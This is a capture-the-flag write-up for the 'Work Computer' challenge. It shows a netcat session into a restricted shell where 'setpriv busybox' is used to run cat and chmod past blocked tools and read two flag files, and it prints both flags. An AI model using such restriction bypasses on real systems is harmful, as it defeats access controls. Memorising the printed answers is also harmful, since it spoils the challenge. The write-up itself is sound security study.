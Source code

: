 # Work Computer

![img](./assets/work-computer-task.png)

#### **Given:** remote address readme.ctfcompetition.com 1337

Connecting to the remote. According to the problem description we should see a shell.
```
netcat readme.ctfcompetition.com 1337
> 
```
Okay, let's try to play a bit with this shell:
```
> ls
ORME.flag
README.flag
> cat README.flag
error: No such file or directory
> cat    
error: No such file or directory
> less
error: No such file or directory
> head
error: No such file or directory
```
We can see two `.flag`-files, but it seems that standard file-reading tools are not available.

Let's see what's available:
```
> pwd
/challenge
> cd ..
> pwd
/
> ls /bin /usr/bin /sbin /usr/sbin
/bin:
arch
busybox
chgrp
chown
conspy
date
df
dmesg
dnsdomainname
[...] // +100 other binaries
```
There's a bunch of commands available on this system, but I cannot recognize any of them as file-reading.

What's interesting though, there's a busybox present! Let's try to run it:
```
> busybox
busybox can not be called for alien reasons.
```
![img](./assets/sure-jan.png)

Trying out some privileges-related utils:
```
> su
error: No such file or directory
> sudo
error: No such file or directory
> setpriv
BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
[...]
```
`setpriv` is available! (And also linked to busybox).
```
> setpriv busybox cat README.flag
CTF{4ll_D474_5h4ll_B3_Fr33}
> setpriv busybox cat ORME.flag
cat: can't open 'ORME.flag': Permission denied
> ls -l
total 8
----------    1 1338     1338            33 Apr 11 19:12 ORME.flag
-r--------    1 1338     1338            28 Apr 11 19:12 README.flag
> setpriv busybox chmod +r ORME.flag
> setpriv busybox cat ORME.flag
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

**Flag1: CTF{4ll_D474_5h4ll_B3_Fr33}**

**Flag2: CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}**

Resources used:
[List of BusyBox commands](https://boxmatrix.info/wiki/BusyBox-Commands)
